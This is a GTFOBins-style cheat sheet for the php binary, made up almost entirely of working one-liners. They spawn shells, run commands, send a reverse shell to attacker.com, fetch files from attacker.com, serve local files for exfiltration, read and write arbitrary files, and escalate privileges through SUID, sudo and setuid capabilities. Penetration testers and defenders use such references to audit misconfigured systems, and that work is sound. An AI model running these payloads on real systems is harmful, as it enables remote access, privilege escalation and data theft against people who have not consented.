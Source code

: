 # GTFOBin: php

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
export CMD="/bin/sh"
php -r 'system(getenv("CMD"));'
```

```
export CMD="/bin/sh"
php -r 'passthru(getenv("CMD"));'
```

```
export CMD="/bin/sh"
php -r 'print(shell_exec(getenv("CMD")));'
```

```
export CMD="/bin/sh"
php -r '$r=array(); exec(getenv("CMD"), $r); print(join("\\n",$r));'
```

```
export CMD="/bin/sh"
php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
```

## Command

It can be used to break out from restricted environments by running non-interactive system commands.

```
export CMD="id"
php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

## File upload

It can exfiltrate files on the network.

Serve files in the local folder running an HTTP server. This requires PHP version 5.4 or later.

```
LHOST=0.0.0.0
LPORT=8888
php -S $LHOST:$LPORT
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

write data to a file, filename should be absolute.

```
export LFILE=file_to_write
php -r 'file_put_contents(getenv("LFILE"), "DATA");'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
export LFILE=file_to_read
php -r 'readfile(getenv("LFILE"));'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which php) .

CMD="/bin/sh"
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

## Capabilities

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

```
cp $(which php) .
sudo setcap cap_setuid+ep php

CMD="/bin/sh"
./php -r "posix_setuid(0); system('$CMD');"
```